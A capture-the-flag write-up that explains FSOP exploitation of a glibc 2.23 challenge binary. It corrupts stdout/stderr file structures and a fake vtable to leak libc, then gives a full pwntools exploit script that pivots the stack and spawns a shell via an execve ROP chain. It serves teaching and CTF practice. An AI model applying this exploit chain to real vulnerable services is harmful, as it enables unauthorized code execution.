







# FSOP writeup

# Introduction
I was sent a challenge by my friend and teacher [zanderdk](https://twitter.com/alexanderkrog). He provided me with a binary a linker and a libc file. Both the linker and the libc was version 2.23.
He told me I would likely need to stack pivot several times to solve it and the idea behind the challenge all revolved around messing with file pointers to a point that calling exit would leak libc!
It sounded like a great challenge so I asked him to give me a quick introduction to everything which will be covered during this writeup.
A massive thank you to zander from Kalmarunionen for sending me this amazing challenge! :)

# The exploitable program
The program itself is relatively small and only really consists of two things:
1. The entry point:



2. The main function which has a buffer overflow in it:




Running checksec yields the following:



Because of the FULL RELRO we are unable to write to the GOT.

ROPGadget has useful gadgets but nothing incredible, we do however have a ```pop rdi; ret``` and ```pop rsi; ret``` gadget which might become useful for an arbitrary write.
We also have a ```leave; ret``` gadget which might become useful for stack pivoting and a ```pop r15; ret``` gadget which might become useful for popping garbage into (foreshadowing)
```
0x0000000000400427 : add al, byte ptr [rax] ; add byte ptr [rax], al ; jmp 0x4003f0
0x0000000000400407 : add byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x4003f0
0x0000000000400409 : add byte ptr [rax], al ; jmp 0x4003f0
0x0000000000400417 : add dword ptr [rax], eax ; add byte ptr [rax], al ; jmp 0x4003f0
0x0000000000400404 : and byte ptr [rax], al ; push 0 ; jmp 0x4003f0
0x0000000000400414 : and byte ptr [rax], al ; push 1 ; jmp 0x4003f0
0x0000000000400424 : and byte ptr [rax], al ; push 2 ; jmp 0x4003f0
0x000000000040043e : call qword ptr [rbp + 0x48]
0x0000000000400498 : dec ecx ; ret
0x0000000000400412 : fimul dword ptr [rbx] ; and byte ptr [rax], al ; push 1 ; jmp 0x4003f0
0x000000000040040b : jmp 0x4003f0
0x0000000000400499 : leave ; ret
0x0000000000400402 : loop 0x40040f ; and byte ptr [rax], al ; push 0 ; jmp 0x4003f0
0x000000000040049b : pop r15 ; ret
0x000000000040047c : pop rbp ; ret
0x000000000040049c : pop rdi ; ret
0x000000000040049e : pop rsi ; ret
0x0000000000400406 : push 0 ; jmp 0x4003f0
0x0000000000400416 : push 1 ; jmp 0x4003f0
0x0000000000400426 : push 2 ; jmp 0x4003f0
0x000000000040047d : ret
0x0000000000400422 : ror byte ptr [rbx], cl ; and byte ptr [rax], al ; push 2 ; jmp 0x4003f0
```


# The theory behind FSOP
The general idea behind FSOP in this case is abusing the file pointer of stdout and stderr to leak an offset in libc. The structure of a open file pointer can be seen below
```C
struct _IO_FILE {
  int _flags;       /* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags

  /* The following pointers correspond to the C++ streambuf protocol. */
  /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
  char* _IO_read_ptr;   /* Current read pointer */
  char* _IO_read_end;   /* End of get area. */
  char* _IO_read_base;  /* Start of putback+get area. */
  char* _IO_write_base; /* Start of put area. */
  char* _IO_write_ptr;  /* Current put pointer. */
  char* _IO_write_end;  /* End of put area. */
  char* _IO_buf_base;   /* Start of reserve area. */
  char* _IO_buf_end;    /* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
#if 0
  int _blksize;
#else
  int _flags2;
#endif
  _IO_off_t _old_offset; /* This used to be _offset but it's too small.  */

#define __HAVE_COLUMN /* temporary */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  /*  char* _save_gptr;  char* _save_egptr; */

  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
struct _IO_FILE_complete
{
  struct _IO_FILE _file;
#endif
#if defined _G_IO_IO_FILE_VERSION && _G_IO_IO_FILE_VERSION == 0x20001
  _IO_off64_t _offset;
# if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data;
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
# else
  void *__pad1;
  void *__pad2;
  void *__pad3;
  void *__pad4;

  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
#endif
};
```

The first value in the file structure is a flag. This flag tells the libc how to handle the open file pointer eg. whether or not it's buffered, is printing, or accessible.
For now all we need to know is that setting the flag to 0xfbad1800 will allow us to abuse stderr to print out an offset. In short, setting this flag will tell the libc that stderr is currently printing and when exit then flushes the open file pointers (from highest to lowest) it will print out our data.
If you are interested in how this flag was found, it will be covered in the last part of this post.

The next pointers we are interested in, in this case is the _IO_write_base pointer. If this value is set to something lower than _IO_write and the 0xfbad1800 flag is set, it will print out all values found in between the _IO_write_base and _IO_write pointers.
An example of this can be tested by setting the flag and the _IO_write_base manually in gdb:


As can be seen on the image above, if we set the flag to be 0xfbad1800 and the _IO_write_base pointer to point below _IO_write we will start printing out values between these two pointers.

But now we have another problem. We are calling exit after all! So how do we make sure that we can actually use this leak before the program closes?
That's where we're lucky that we have more than one file pointer and that all file pointers contain another variable which is a pointer to a vtable that can be found at the end of the file pointer:



The vtable contains pointers to functions that the open file filer pointer uses to do various tasks, like putting, reading, writing, etc.. Whenever the file has to do one of these tasks, it looks up the function in the vtable and executes the function at the specified offset.

We can use this information to create our own fake vtable in the binary which will only contain pointers to main, thereby stopping our exit call and returning to main instead.

Now we'll be executing main again with a libc leak.

# Writing the exploit
The general idea lies behind the open file pointers being present in a read/write-able part of the binary. By first writing to the area by using the ```read``` function we can input gadgets above and below them, then stack pivot there and basically read/write anything into them.
Since the open file pointers also are located at specified offsets, we can read/write to the low byte of the file pointer to specify where in the file pointer structure we would like to write.

An example of a fake stack created around the open file pointers can be seen here:


After this it's just a matter of stack pivoting several times to do multiple read calls to the relevant offsets of the file pointer structures. The exploit I came up with can be seen below but in case you don't want to read the full exploit here's a quick summary of how it's done:

Stage 1: Overflow, create fake vtable, write flag to stderr, change low byte of stderr to point to write_base, stack pivot to the section with the open file pointers

Stage 2: Set the low byte of write_base in stderr to 0x0, restore stderr to previous condition, set low byte of stdout to point at vtable pointer, stack pivot back to the top of our fake stack

Stage 3: Set the vtable pointer in stdout to point at our fake vtable. Plant stack pivot at higher offset which will be used in last payload to return to exit. Change low byte of stdout to point at write base, stack pivot back to the top of our fake stack

Stage 4: Set low byte of write base in stdout to 0x0, change stdout pointer to point at flag offset, stack pivot back to the top of our fake stack

Stage 5: Write flag to stdout pointer, then return to exit.

Stage 6: Receive our libc leak then proceed to get shell.

```python
from pwn import *

elfPath = './chall'
libcPath = './libc-2.23.so'

env = {'LD_PRELOAD': libcPath}

gdbscript = '''
break *0x400410
break *main
ignore 1 20
ignore 2 1
c
'''
#io = gdb.debug(elfPath, gdbscript=gdbscript, env=env)
io = process(elfPath, env=env)

#Gadgets
#0x000000000040049b : pop r15 ; ret
popgarbage = p64(0x40049b)
#0x000000000040047c : pop rbp ; ret
poprbp = p64(0x40047c)
#0x000000000040049c : pop rdi ; ret
poprdi = p64(0x40049c)
#0x000000000040049e : pop rsi ; ret
poprsi = p64(0x40049e)

leave = p64(0x400499)

abovestdout = 0x601018
abovestdin = 0x601028
abovestderr = 0x601038

fullcontrol = 0x601048

read = p64(0x400410)

retgadget = p64(0x40047d)

fakevtable = 0x601500

main = 0x0040047e

exit = 0x0040043a
#Helper function to call read
def read_where(offset):
    payload = b""

    payload+=poprsi
    payload+=p64(offset)
    payload+=poprdi
    payload+=p64(0x0)
    payload+=read

    return payload
#Helper function to create a fake vtable
def create_fake_vtable(offset):
    payload = b''
    payload+=p64(0x0)*2
    payload+=p64(offset)*19
    payload+=p64(0x0)
    return payload

padding = b"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH"

#Stage 1 Create fake vtable, write flag to stderr, change low byte of stderr to point to write_base, stack pivot to the section with the open file pointers
io.send(padding + p64(abovestdout-0x8) + read_where(abovestdout-0x8) + read_where(abovestdin) + read_where(abovestderr) + read_where(fakevtable) + read_where(fullcontrol) + leave)

sleep(0.1)
io.send(p64(abovestdout-0x8) + popgarbage)
sleep(0.1)
io.send(popgarbage)
sleep(0.1)
io.send(poprsi)
sleep(0.1)
io.send(create_fake_vtable(main))
sleep(0.1)
io.send(retgadget*20 + poprdi + p64(0x0) + read + read_where(0x601040) + read_where(fullcontrol) + leave)
sleep(0.1)
io.send(p64(0xfbad1800))
sleep(0.1)
io.send(b'\x60')
sleep(0.1)

#Stage 2 Set the low byte of write_base in stderr to 0x0, restore stderr to previous condition, set low byte of stdout to point at vtable pointer
io.send(poprdi + p64(0x0) + read + read_where(0x601040) +read_where(0x601020) + read_where(abovestderr) + read_where(abovestdout-0x8) + read_where(fullcontrol) + leave)
sleep(0.1)
io.send(b'\x00')
sleep(0.1)
io.send(b'\x40')
sleep(0.1)
io.send(b'\xf8')
sleep(0.1)
io.send(popgarbage)
sleep(0.1)
io.send(p64(abovestdout-0x8) + poprsi)
sleep(0.1)

#Stage 3 Set the vtable pointer in stdout to point at our fake vtable. plant stack pivot at higher offset which will be used in last payload. Change low byte of stdout to point at write_base
io.send(poprdi + p64(0x0) + read + read_where(0x601300) + read_where(0x601020) + read_where(fullcontrol) + leave)
sleep(0.1)
io.send(p64(fakevtable))
sleep(0.1)
io.send(p64(abovestdout-0x8) + p64(exit))
sleep(0.1)
io.send(b'\x40')
sleep(0.1)

#Stage 4. Set low byte of write base in stdout to 0x0, change stdout pointer to point at flag offset
io.send(poprdi + p64(0x0) + read + read_where(0x601020) + read_where(fullcontrol) + leave)
sleep(0.1)
io.send(b'\x00')
sleep(0.1)
io.send(b'\x20')
sleep(0.1)

#Stage 5, write flag to stdout pointer, then return to exit.
io.send(poprdi + p64(0x0) + read + poprbp + p64(0x601300) + leave)
sleep(0.1)
io.send(p64(0xfbad1800))
sleep(0.1)

#Stage 6 receive our leak then proceed to get shell.
leak = io.recv()[:8]
libcbase = u64(leak) - 0x18e997

poprax = p64(libcbase + 0x33544)
poprdx = p64(libcbase + 0x1b92)
binsh = p64(libcbase + 0x18cd57)
syscall = p64(libcbase + 0xbc375)
io.send(padding + b"AAAABBBB" + poprax + p64(59) + poprdx + p64(0) + poprdi + binsh + poprsi + p64(0) + syscall)

io.interactive()
```

Running this exploit now gives us shell! :D


# The flags
As mentioned earlier we set the flags to 0xfbad1800, but why exactly these flags? Let's take a look at the flags definition for open file pointers:
```C
/* Magic numbers and bits for the _flags field.
   The magic numbers use the high-order bits of _flags;
   the remaining bits are available for variable flags.
   Note: The magic numbers must all be negative if stdio
   emulation is desired. */

#define _IO_MAGIC 0xFBAD0000 /* Magic number */
#define _OLD_STDIO_MAGIC 0xFABC0000 /* Emulate old stdio. */
#define _IO_MAGIC_MASK 0xFFFF0000
#define _IO_USER_BUF 1 /* User owns buffer; don't delete it on close. */
#define _IO_UNBUFFERED 2
#define _IO_NO_READS 4 /* Reading not allowed */
#define _IO_NO_WRITES 8 /* Writing not allowd */
#define _IO_EOF_SEEN 0x10
#define _IO_ERR_SEEN 0x20
#define _IO_DELETE_DONT_CLOSE 0x40 /* Don't call close(_fileno) on cleanup. */
#define _IO_LINKED 0x80 /* Set if linked (using _chain) to streambuf::_list_all.*/
#define _IO_IN_BACKUP 0x100
#define _IO_LINE_BUF 0x200
#define _IO_TIED_PUT_GET 0x400 /* Set if put and get pointer logicly tied. */
#define _IO_CURRENTLY_PUTTING 0x800
#define _IO_IS_APPENDING 0x1000
#define _IO_IS_FILEBUF 0x2000
#define _IO_BAD_SEEN 0x4000
#define _IO_USER_LOCK 0x8000
```
As we can see here the 0xfbad is the magic number for the flags and should always be set.
0x1000 signify _IO_IS_APPENDING and 0x800 signify _IO_IS_CURRENTLY_PUTTING

Let's take a look at xsputn which is called by puts:

```C
size_t _IO_new_file_xsputn (FILE *f, const void *data, size_t n)
{
  const char *s = (const char *) data;
  size_t to_do = n;
  int must_flush = 0;
  size_t count = 0;
  if (n <= 0)
    return 0;
  /* This is an optimized implementation.
     If the amount to be written straddles a block boundary
     (or the filebuf is unbuffered), use sys_write directly. */
  /* First figure out how much space is available in the buffer. */
  if ((f->_flags & _IO_LINE_BUF) && (f->_flags & _IO_CURRENTLY_PUTTING))
    {
      count = f->_IO_buf_end - f->_IO_write_ptr;
      if (count >= n)
        {
          const char *p;
          for (p = s + n; p > s; )
            {
              if (*--p == '\n')
                {
                  count = p - s + 1;
                  must_flush = 1;
                  break;
                }
            }
        }
    }
  else if (f->_IO_write_end > f->_IO_write_ptr)
    count = f->_IO_write_end - f->_IO_write_ptr; /* Space available. */
  /* Then fill the buffer. */
  if (count > 0)
    {
      if (count > to_do)
        count = to_do;
      f->_IO_write_ptr = __mempcpy (f->_IO_write_ptr, s, count);
      s += count;
      to_do -= count;
    }
  if (to_do + must_flush > 0)
    {
      size_t block_size, do_write;
      /* Next flush the (full) buffer. */
      if (_IO_OVERFLOW (f, EOF) == EOF)
        /* If nothing else has to be written we must not signal the
           caller that everything has been written.  */
        return to_do == 0 ? EOF : n - to_do;
      /* Try to maintain alignment: write a whole number of blocks.  */
      block_size = f->_IO_buf_end - f->_IO_buf_base;
      do_write = to_do - (block_size >= 128 ? to_do % block_size : 0);
      if (do_write)
        {
          count = new_do_write (f, s, do_write);
          to_do -= count;
          if (count < do_write)
            return n - to_do;
        }
      /* Now write out the remainder.  Normally, this will fit in the
         buffer, but it's somewhat messier for line-buffered files,
         so we let _IO_default_xsputn handle the general case. */
      if (to_do)
        to_do -= _IO_default_xsputn (f, s+do_write, to_do);
    }
  return n - to_do;
}
libc_hidden_ver (_IO_new_file_xsputn, _IO_file_xsputn)
```
As we can see the function xsputn checks whether _IO_IS_CURRENTLY_PUTTING flag is set along with the _IO_LINE_BUF flag is set. If it's not set it runs the function _IO_OVERFLOW.

Let's take a look at what the function _IO_new_file_overflow which is called by _IO_OVERFLOW does:

```C
int _IO_new_file_overflow (FILE *f, int ch)
{
  if (f->_flags & _IO_NO_WRITES) /* SET ERROR */
    {
      f->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return EOF;
    }
  /* If currently reading or no buffer allocated. */
  if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0 || f->_IO_write_base == NULL)
    {
      /* Allocate a buffer if needed. */
      if (f->_IO_write_base == NULL)
        {
          _IO_doallocbuf (f);
          _IO_setg (f, f->_IO_buf_base, f->_IO_buf_base, f->_IO_buf_base);
        }
      /* Otherwise must be currently reading.
         If _IO_read_ptr (and hence also _IO_read_end) is at the buffer end,
         logically slide the buffer forwards one block (by setting the
         read pointers to all point at the beginning of the block).  This
         makes room for subsequent output.
         Otherwise, set the read pointers to _IO_read_end (leaving that
         alone, so it can continue to correspond to the external position). */
      if (__glibc_unlikely (_IO_in_backup (f)))
        {
          size_t nbackup = f->_IO_read_end - f->_IO_read_ptr;
          _IO_free_backup_area (f);
          f->_IO_read_base -= MIN (nbackup,
                                   f->_IO_read_base - f->_IO_buf_base);
          f->_IO_read_ptr = f->_IO_read_base;
        }
      if (f->_IO_read_ptr == f->_IO_buf_end)
        f->_IO_read_end = f->_IO_read_ptr = f->_IO_buf_base;
      f->_IO_write_ptr = f->_IO_read_ptr;
      f->_IO_write_base = f->_IO_write_ptr;
      f->_IO_write_end = f->_IO_buf_end;
      f->_IO_read_base = f->_IO_read_ptr = f->_IO_read_end;
      f->_flags |= _IO_CURRENTLY_PUTTING;
      if (f->_mode <= 0 && f->_flags & (_IO_LINE_BUF | _IO_UNBUFFERED))
        f->_IO_write_end = f->_IO_write_ptr;
    }
  if (ch == EOF)
    return _IO_do_write (f, f->_IO_write_base,
                         f->_IO_write_ptr - f->_IO_write_base);
  if (f->_IO_write_ptr == f->_IO_buf_end ) /* Buffer is really full */
    if (_IO_do_flush (f) == EOF)
      return EOF;
  *f->_IO_write_ptr++ = ch;
  if ((f->_flags & _IO_UNBUFFERED)
      || ((f->_flags & _IO_LINE_BUF) && ch == '\n'))
    if (_IO_do_write (f, f->_IO_write_base,
                      f->_IO_write_ptr - f->_IO_write_base) == EOF)
      return EOF;
  return (unsigned char) ch;
}
libc_hidden_ver (_IO_new_file_overflow, _IO_file_overflow)
```

As we can see it checks whether the _IO_IS_CURRENTLY_PUTTING flag is set. If the flag is set it allocates a buffer from _IO_write_base to _IO_write_ptr and calls do write on that buffer.

Let's take a look at _IO_new_do_write which is called by _IO_do_write


```C
int _IO_new_do_write (FILE *fp, const char *data, size_t to_do)
{
  return (to_do == 0
          || (size_t) new_do_write (fp, data, to_do) == to_do) ? 0 : EOF;
}
libc_hidden_ver (_IO_new_do_write, _IO_do_write)

static size_t
new_do_write (FILE *fp, const char *data, size_t to_do)
{
  size_t count;
  if (fp->_flags & _IO_IS_APPENDING)
    /* On a system without a proper O_APPEND implementation,
       you would need to sys_seek(0, SEEK_END) here, but is
       not needed nor desirable for Unix- or Posix-like systems.
       Instead, just indicate that offset (before and after) is
       unpredictable. */
    fp->_offset = _IO_pos_BAD;
  else if (fp->_IO_read_end != fp->_IO_write_base)
    {
      off64_t new_pos
        = _IO_SYSSEEK (fp, fp->_IO_write_base - fp->_IO_read_end, 1);
      if (new_pos == _IO_pos_BAD)
        return 0;
      fp->_offset = new_pos;
    }
  count = _IO_SYSWRITE (fp, data, to_do);
  if (fp->_cur_column && count)
    fp->_cur_column = _IO_adjust_column (fp->_cur_column - 1, data, count) + 1;
  _IO_setg (fp, fp->_IO_buf_base, fp->_IO_buf_base, fp->_IO_buf_base);
  fp->_IO_write_base = fp->_IO_write_ptr = fp->_IO_buf_base;
  fp->_IO_write_end = (fp->_mode <= 0
                       && (fp->_flags & (_IO_LINE_BUF | _IO_UNBUFFERED))
                       ? fp->_IO_buf_base : fp->_IO_buf_end);
  return count;
}
```
As we can see here as well _IO_new_do_write checks if the _IO_IS_APPENDING flag is set and writes to the console from _IO_write_base to _IO_write_ptr if that is the case.

So what exactly is happening?
The file pointer is running through the xsputn function and sees the _IO_IS_APPENDING flag is set but _IO_LINE_BUF is not. Since the _IO_IS_APPENDING flag is set and the _IO_LINE_BUF flag is not it calls _IO_OVERFLOW

_IO_OVERFLOW then fills the buffer from the _IO_write_base to _IO_write_ptr and calls _IO_do_write on that buffer.

_IO_new_do_write then checks if the IO_IS_APPENDING flag is set. If it is, it prints out what is in that buffer (in this case it was allocated by _IO_OVERFLOW())

Now we have a libc leak :)
